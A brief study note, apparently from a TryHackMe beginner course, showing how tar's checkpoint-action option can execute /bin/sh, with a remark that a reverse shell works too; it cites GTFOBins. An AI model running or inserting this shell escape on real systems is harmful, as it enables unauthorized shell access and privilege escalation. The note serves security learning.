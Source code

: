 # Exploiting “tar”

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)

- - - -

👤 Nathan Acks  
📅 November 2, 2021
